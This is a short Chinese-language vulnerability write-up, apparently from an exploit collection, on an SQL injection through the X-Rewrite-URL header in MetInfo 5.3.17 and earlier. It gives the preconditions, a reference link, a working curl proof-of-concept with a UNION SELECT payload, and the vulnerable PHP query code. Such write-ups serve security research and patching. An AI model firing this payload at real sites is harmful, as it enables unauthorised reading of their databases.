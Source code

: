 ## MetInfo 5.3.17

### X-Rewrite-URL SQL注入

要求

* 管理员在 `营销 -> SEO` 下面，开启伪静态
* 管理员安装了至少两种语言包，只安装中文会导致 `$lang` 被覆盖，无法注入

影响版本

* <= 5.3.17

参考链接

* [Metinfo 5.3.17 前台SQL注入漏洞分析](https://paper.seebug.org/371/)

Poc

```
curl -I 'http://127.0.0.1/index.php?lang=Cn&index=xxxx' -H "X-Rewrite-URL: 'and 1=2 union select version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#/index.php"
```

关键代码

```
# config/config.inc.php
$met_index_type = $db->get_one("SELECT * FROM $met_config WHERE name='met_index_type' and lang='metinfo'");

..

if(count($met_langok)==1)$lang=$met_index_type;

# include/global.func.php
$dir_dirname=$dirs[count($dirs)-2];

...

if($lang==$met_index_type){
	
	...

} else {

	...

$query="select * from $met_column where foldername='$dir_dirname' and lang='$lang' and (classtype='1' or releclass!='0') order by id asc";

	...
```